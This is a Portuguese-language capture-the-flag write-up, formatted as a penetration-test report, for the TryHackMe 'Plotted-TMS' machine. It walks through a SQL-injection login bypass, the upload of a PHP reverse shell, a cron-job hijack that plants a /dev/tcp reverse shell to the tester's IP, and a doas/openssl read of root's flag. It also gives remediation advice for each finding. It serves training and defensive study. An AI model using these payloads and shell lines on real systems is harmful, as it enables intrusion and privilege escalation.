







# Write-up Plotted-TMS

Preparado por: Willian Matheus Nunes Mafra

Data: 31 de março de 2025

## Sumário Executivo

Este relatório apresenta os resultados do teste de intrusão realizado na infraestrutura e aplicações da máquina de CTF da TryHackMe no dia 30/03/2025.

```
https://tryhackme.com/room/plottedtms
```

Durante a avaliação, foram identificadas **4 vulnerabilidades**, sendo **todas** classificadas como críticas. As vulnerabilidades estão relacionadas a falhas de injeção SQL, upload de arquivos sem restrição, e problemas de escalonamento de privilégios via configurações inadequadas de cron jobs e permissões DOAS.

## Escopo
- Endereço IP: 10.10.18.213

## Metodologia

O teste de intrusão foi executado seguindo as fases do PTES:

1. **Coleta de Informações**
   - Reconhecimento ativo
   - Identificação de tecnologias e serviços

2. **Modelagem de Ameaças**
   - Identificação de ativos críticos
   - Análise de potenciais vetores de ataque

3. **Análise de Vulnerabilidades**
   - Varreduras automatizadas
   - Correlação de resultados

4. **Exploração**
   - Tentativas de exploração das vulnerabilidades identificadas
   - Escalação de privilégios

5. **Pós-Exploração**
   - Coleta de evidências

6. **Relatório**
   - Documentação detalhada dos achados
   - Recomendações para mitigação
   - Métricas e estatísticas

## Ferramentas Utilizadas

- Nmap
- ffuf
- Penelope


## Sumário de Resultados

### Distribuição de Vulnerabilidades por Severidade

| Severidade | Quantidade | Percentual |
|------------|------------|------------|
| Crítica    | 4          | 100%         |
| Alta       | 0          | 0%         |
| Média      | 0          | 0%         |
| Baixa      | 0          | 0%         |
| Total      | 4          | 100%       |

### Distribuição de Vulnerabilidades por Categoria

| Categoria                      | Quantidade | Percentual |
|--------------------------------|------------|------------|
| Injeção                        | 1          | 25%         |
| Upload de Arquivos sem Restrição          | 1          | 25%         |
| Escalonamento de Privilégios         | 2          | 50%         |
| Total                          | 4          | 100%       |

## Coleta de Informações

### 1. Scan de rede - Nmap



**Descrição:**  
Foi identificado 3 portas abertas na máquina, sendo elas 22 com um serviço ssh, 80 e 445 com serviços Apache HTTP.

### 2. Enumeração de diretórios - FFUF



**Descrição**  
Utilizando ffuf, foi possível descobrir um diretório importante (**/management**) e que por meio dele, deu acesso a uma aplicação vulnerável. 

## Vulnerabilidades Detalhadas

### 1. Injeção SQL em Formulário de Login (CRÍTICA)

**Identificador:** VULN-001  
**Severidade:** Crítica  
**CVSS:** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)  
**Localização:** http://10.10.18.213/management/admin/login.php



**Descrição:**  
Foi identificada uma vulnerabilidade de injeção SQL no formulário de login da aplicação principal. A aplicação não sanitiza adequadamente a entrada do usuário, permitindo a injeção de comandos SQL que podem resultar em acesso não autorizado ao sistema.

**Evidência:**  
Ao submeter a string `' OR 1=1#` no campo de usuário e campo de senha, a aplicação autenticou o pentest com privilégios administrativos, permitindo acesso completo ao painel de administração.

```

POST /traffic_offense/classes/Login.php?f=login HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: */*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 47
Connection: close
Cookie: PHPSESSID=5vr3fm16tmrncov6j4amftftmi
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

username=' OR 1=1#&password=' OR 1=1#
```

**Impacto:**  
Esta vulnerabilidade permite que um atacante:
- Acesse o sistema sem credenciais válidas
- Obtenha acesso a informações sensíveis armazenadas no banco de dados
- Execute operações privilegiadas dentro da aplicação
- Potencialmente exfiltre todo o conteúdo do banco de dados

**Recomendações:**  
1. Implementar consultas parametrizadas (prepared statements) para todas as operações de banco de dados.
2. Validar e sanitizar todas as entradas de usuário.
3. Implementar princípio de menor privilégio nas conexões de banco de dados.
4. Considerar a implementação de WAF (Web Application Firewall) como medida adicional de proteção.

**Referências:**
- CWE-89: Improper Neutralization of Special Elements used in an SQL Command
- OWASP Top 10 2021: A03 - Injection
- https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

### 2. Reverse Shell via Upload de Arquivos sem Restrição  (CRÍTICA)

**Identificador:** VULN-002  
**Severidade:** Crítica  
**CVSS:** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)  
**Localização:** http://10.10.18.213/management/admin/login.php



**Descrição:**  
Foi identificada uma vulnerabilidade que permite o upload de arquivos sem restrição adequada. A aplicação não valida corretamente a extensão e o tipo dos arquivos enviados, possibilitando o upload de arquivos maliciosos, como shells web em PHP, que podem ser utilizados para comprometer o sistema.

**Evidência:**  
O primeiro passo é um listener na máquina atacante usando penelope com a porta escolhida no reverse shell:

```
python3 penelope.py PORTA
```

E então,ao realizar o upload de um arquivo PHP malicioso contendo um web shell na página de cadastro de usuários (obs: foi utiliado a reverse shell pentest monkey, disponível para uso no github)

```

POST /management/classes/Users.php?f=save HTTP/1.1
Host: 10.10.18.213:445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------29210971036646702814293864180
Content-Length: 6404
Origin: http://10.10.18.213:445
Connection: keep-alive
Referer: http://10.10.18.213:445/management/admin/?page=user/manage_user
Cookie: PHPSESSID=nbh2n4pr4vhuqc4apnq6kgh1p2
Priority: u=0

-----------------------------29210971036646702814293864180
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/x-php

<?php

// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

?>
```
Shell sendo recebida na máquina atacante:


**Impacto:**  
Esta vulnerabilidade permite que um atacante:

- Faça upload de arquivos maliciosos e obtenha execução remota de código (RCE).

- Escale privilégios dentro do servidor comprometido.

- Manipule arquivos e obtenha acesso a informações sensíveis.

- Use o servidor como plataforma para ataques adicionais.

**Recomendações:**  
1. Restringir o upload apenas a tipos de arquivos seguros, como imagens (jpg, png, gif) e documentos (pdf, docx).

2. Implementar validação no lado do servidor para verificar extensões e tipos MIME.

3. Renomear arquivos enviados para evitar a execução de scripts.

4. Armazenar os arquivos enviados fora do diretório web acessível.

5. Definir permissões adequadas no diretório de upload para evitar execução de arquivos.

6. Implementar um Web Application Firewall (WAF) para detectar uploads maliciosos.

**Referências:**
- CWE-434: Unrestricted Upload of File with Dangerous Type

- https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html

### 3. Escalonamento de Privilégios via Cron Job (CRÍTICA)

**Identificador:** VULN-003  
**Severidade:** Crítica  
**CVSS:** 7.8 (AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)  
**Localização:** /var/www/scripts/backup.sh


**Descrição:**  
Foi identificada uma vulnerabilidade de escalonamento de privilégios através da exploração de um cron job configurado para executar como usuário privilegiado (plot_admin). O servidor possui uma configuração inadequada de permissões que permite ao usuário www-data manipular o script executado pelo cron job.


**Evidência:**  
Durante a análise do sistema, foi identificado que o usuário plot_admin possui um cron job configurado para executar o script /var/www/scripts/backup.sh periodicamente:
```bash
* *      * * *   plot_admin /var/www/scripts/backup.sh
```
Verificação das permissões mostrou que o usuário www-data tem permissões para modificar a pasta /var/www/scripts/:

```bash
www-data@plotted:~$ ls -la /var/www/
```

Com essa informações, podemos executar:
```bash 
rm -r /var/www/scripts
```

Recebemos uma mensagem de permissão negada, mas o arquivo foi removido, então podemos acessar a pasta e recriar o arquivo backup.sh
```bash 
cd scripts;
nano backup.sh
```

E preencher o novo backup.sh com o seguinte conteúdo, a fim de conseguirmos uma shell reversa com o usuário plot_admin
```
#!/bin/bash

sh -i >& /dev/tcp/10.8.14.116/8889 0>&1
```

Ao recriar o arquivo backup.sh, podemos inicar um listener com o penelope na máquina atacante
```
python3 penelope.py 8889
```

Listando permissões de pasta e arquivo:


Editando arquivo backup.sh:


Recebendo shell como plot_admin


Alcançando primeira flag do desafio:


**Impacto:**  
Esta vulnerabilidade permite que um atacante:

- Modifique o conteúdo do script backup.sh para incluir comandos maliciosos
- Execute comandos arbitrários com os privilégios do usuário plot_admin
- Potencialmente escalone privilégios adicionais dependendo das permissões do usuário plot_admin
- Estabeleça persistência no sistema através de execuções programadas

**Recomendações:**  
1. Implementar permissões adequadas nos arquivos e diretórios do sistema, especialmente aqueles usados em tarefas automatizadas
2. Aplicar o princípio de menor privilégio para os usuários do sistema
3. Utilizar caminhos absolutos nos scripts do cron e restringir as permissões de escrita
4. Considerar o uso de mecanismos como sudo com regras específicas em vez de cron jobs com usuários privilegiados
5. Implementar auditoria de atividades para detectar modificações não autorizadas em scripts do sistema

**Referências:**
- CWE-269: Improper Privilege Management
- CWE-732: Incorrect Permission Assignment for Critical Resource
- OWASP Top 10 2021: A01 - Broken Access Control
### 4. Escalonamento de Privilégios via DOAS (CRÍTICA)

**Identificador:** VULN-004  
**Severidade:** Crítica  
**CVSS:** 9.1 (AV/AC/PR/UI/S/C/I/A)  
**Localização:** /usr/bin/doas


**Descrição:**  
Foi identificada uma vulnerabilidade de escalonamento de privilégios através da configuração inadequada do utilitário doas. O binário /usr/bin/doas está configurado com permissão SUID e possui uma configuração em /etc/doas.conf que permite ao usuário plot_admin executar o comando openssl como usuário root sem necessidade de senha. Esta má configuração permite que um atacante, após obter acesso como plot_admin, execute comandos arbitrários como root utilizando as funcionalidades do openssl, incluindo a leitura de arquivos restritos.


**Evidência:**  
Durante a análise do sistema em buscar de arquivos com SUID ativado, foi identificado que o o arquivo /usr/bin/doas possuia essa condição:


```bash
ls -la /usr/bin/

-rwsr-xr-x 1 root root 39008 Feb 5 2021 doas
```

Então com essa informação, verificamos o que poderia ser usado com o doas:

```bash
cat /etc/doas.conf

permit nopass plot_admin as root cmd openssl
```

Com essa informações, podemos executar:
```bash 
doas -u root enc -in /root/root.txt
```

Chegando assim a nossa flag final do CTF:



**Impacto:**  
Esta vulnerabilidade permite que um atacante:

- Execute comandos com privilégios de root através do utilitário openssl
- Acesse, leia e exfiltre arquivos confidenciais do sistema, incluindo credenciais
- Modifique configurações críticas do sistema comprometendo sua integridade
- Estabeleça persistência no sistema instalando backdoors em nível de sistema
- Contorne completamente o modelo de segurança do sistema operacional
- Maneiras de explorar openssl -> https://gtfobins.github.io/gtfobins/openssl/

**Recomendações:**  
1. Revisar e corrigir a configuração do arquivo /etc/doas.conf seguindo o princípio de menor privilégio
2. Remover permissões para execução de comandos sem senha, especialmente para utilitários versáteis como o openssl
3. Implementar regras específicas que limitem o escopo dos comandos que podem ser executados via doas
4. Implementar autenticação de dois fatores para operações privilegiadas
5. Configurar auditoria detalhada de todas as execuções privilegiadas via doas ou sudo
6. Considerar o uso de solução de Prevenção de Perda de Dados (DLP) para arquivos críticos
7. Realizar revisões periódicas das permissões SUID e configurações de privilégios elevados
8. Implementar monitoramento em tempo real para detectar tentativas de escalonamento de privilégios

**Referências:**
- CWE-250: Execução com Privilégios ou Permissões Desnecessárias
- CWE-269: Gerenciamento Inadequado de Privilégios
- CWE-273: Verificação Inadequada para Condição Vulnerável
- MITRE ATT&CK: Privilege Escalation 
- MITRE ATT&CK: Abuse Elevation Control Mechanism
- OWASP Top 10 2021: A01 - Broken Access Control


## Recomendações Gerais

1. **Implementar um programa de gestão de vulnerabilidades** para identificar e corrigir vulnerabilidades de forma contínua, incluindo varreduras automáticas regulares e processos de remediação bem definidos.
2. **Estabelecer padrões de desenvolvimento seguro (SDLC)** e treinar equipes de desenvolvimento em práticas seguras de codificação, com foco especial em prevenção de injeção SQL e upload seguro de arquivos.
3. **Implementar autenticação multifator (MFA)** em todos os serviços críticos e interfaces administrativas para mitigar o impacto de credenciais comprometidas.
4. **Revisar todas as permissões de sistema** seguindo o princípio de menor privilégio, especialmente em configurações SUID, cron jobs e configurações doas/sudo.
5. **Implementar controles de validação de entrada rigorosos** em todas as interfaces web, particularmente em formulários de login e funcionalidades de upload.
6. **Realizar auditorias regulares de configuração** em todos os sistemas para identificar permissões inadequadas e configurações inseguras antes que possam ser exploradas.
7. **Implementar monitoramento em tempo real de atividades anômalas**, especialmente ações administrativas e tentativas de escalonamento de privilégios.
8. **Conduzir testes de intrusão regulares** para avaliar continuamente a segurança da infraestrutura.

## Conclusão

O teste de intrusão identificou várias vulnerabilidades que, se exploradas, poderiam comprometer a confidencialidade, integridade e disponibilidade dos sistemas da máquina. Recomendo que as vulnerabilidades sejam tratadas com prioridade urgente.

## Apêndices

### Apêndice A: Cronologia das Atividades

| Data       | Atividade                                 |
|------------|-------------------------------------------|
| 30/03/2025 | Início da fase de reconhecimento          |
| 30/03/2025 | Varredura de vulnerabilidades             |
| 30/03/2025 | Fase de exploração                        |
| 30/03/2025 | Verificação de resultados                 |
| 31/03/2025 | Finalização e elaboração do relatório     |

---

Este documento é fictício e contém informações sensíveis de um ambiente de aprendizado, sem valor real.
